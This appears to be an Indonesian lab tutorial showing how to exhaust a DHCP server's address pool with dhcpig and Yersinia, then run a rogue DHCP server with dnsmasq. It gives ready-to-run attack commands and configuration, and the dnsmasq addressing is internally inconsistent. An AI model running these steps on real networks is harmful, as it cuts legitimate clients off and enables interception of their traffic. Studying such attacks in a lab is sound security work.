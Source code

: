 ```yaml
---
sidebar_position: 4
---
```


# DHCP Rogue

## 1. DHCP Starvation dengan dhcpig

### Pengertian dhcpig
`dhcpig` adalah tool open-source yang digunakan untuk melakukan serangan **DHCP Starvation**. Serangan ini bertujuan untuk menghabiskan semua alamat IP yang tersedia di server DHCP sehingga klien sah tidak dapat memperoleh alamat IP.

### Cara Kerja DHCP Starvation
- `dhcpig` mengirimkan banyak permintaan **DHCP Discover** dengan berbagai alamat MAC palsu.
- Server DHCP akan memberikan respon **DHCP Offer** untuk setiap permintaan yang diterima.
- Karena setiap permintaan berasal dari alamat MAC yang berbeda, server menganggapnya sebagai klien unik dan mengalokasikan IP baru untuk setiap permintaan.
- Akhirnya, pool alamat IP akan habis, menyebabkan klien sah gagal mendapatkan alamat IP.

### Contoh Perintah DHCP Starvation dengan dhcpig
Untuk menjalankan serangan dengan `dhcpig`, gunakan perintah berikut di sistem berbasis Linux:
```bash
sudo dhcpig -i eth0
```
- `-i eth0` menentukan antarmuka jaringan yang digunakan untuk serangan.

### Alternatif Lain untuk DHCP Starvation
Selain `dhcpig`, ada juga tool lain yang bisa digunakan untuk DHCP Starvation seperti:
- **Yersinia**: Tool untuk menyerang berbagai protokol jaringan, termasuk DHCP.
  ```bash
  sudo yersinia dhcp -attack 1
  ```
  (Attack 1 adalah mode starvation pada Yersinia)

## 2. Membuat DHCP Rogue dengan dnsmasq

### Instalasi dnsmasq
Untuk membuat DHCP Rogue menggunakan `dnsmasq`, ikuti langkah berikut:
```bash
sudo apt update && sudo apt install dnsmasq -y
```

### Konfigurasi IP Statis
Sebelum mengaktifkan DHCP Rogue, pastikan antarmuka jaringan memiliki alamat IP statis:
```bash
sudo ip addr add 192.168.10.1/24 dev eth0
```
Atau gunakan `nmtui` (Network Manager Text User Interface) untuk mengatur IP:
```bash
nmtui
```
Ubah IP menjadi **192.168.10.1** pada antarmuka jaringan yang sesuai.

### Konfigurasi dnsmasq
Edit file konfigurasi `dnsmasq`:
```bash
sudo nano /etc/dnsmasq.conf
```
Tambahkan atau ubah konfigurasi berikut:
```ini
interface=eth0  # Ganti dengan interface yang digunakan

dhcp-range=192.168.1.10,192.168.1.200,12h  # Rentang alamat IP untuk klien
dhcp-option=3,192.168.1.1  # Gateway palsu (bisa disesuaikan)
dhcp-option=6,8.8.8.8,8.8.4.4  # DNS palsu
```

Simpan file dan keluar, lalu restart layanan `dnsmasq`:
```bash
sudo systemctl restart dnsmasq
sudo systemctl enable dnsmasq
```

### Verifikasi DHCP Rogue Berjalan
Periksa log untuk memastikan `dnsmasq` berjalan dengan benar:
```bash
sudo journalctl -u dnsmasq --no-pager | tail -n 20
```

Gunakan `tcpdump` untuk melihat trafik DHCP:
```bash
sudo tcpdump -i eth0 port 67 or port 68 -n
```
Jika berhasil, setelah pool DHCP asli habis, klien akan mulai mendapatkan alamat IP dari DHCP Rogue yang telah dibuat.
![alt text](docs/images/image-30.png)
![alt text](docs/images/image-31.png)

### Alternatif Lain untuk DHCP Server
Selain `dnsmasq`, ada beberapa opsi lain untuk membuat DHCP Server, seperti:
- **ISC DHCP Server**: DHCP server yang lebih kompleks dan memiliki banyak fitur tambahan.
  ```bash
  sudo apt install isc-dhcp-server -y
  ```

## Kesimpulan
- `dhcpig` dapat digunakan untuk serangan **DHCP Starvation** dengan cara menghabiskan IP pool pada server DHCP.
- `dnsmasq` dapat digunakan untuk membuat **DHCP Rogue** agar klien yang tidak mendapatkan IP dari DHCP asli tetap bisa mendapatkan IP.
- Monitoring menggunakan `tcpdump` membantu dalam melihat trafik DHCP untuk memastikan keberhasilan serangan atau konfigurasi DHCP Rogue.

Dengan tutorial ini, diharapkan pengguna dapat memahami bagaimana DHCP Starvation dan DHCP Rogue bekerja serta bagaimana mengimplementasikannya menggunakan `dhcpig` dan `dnsmasq`.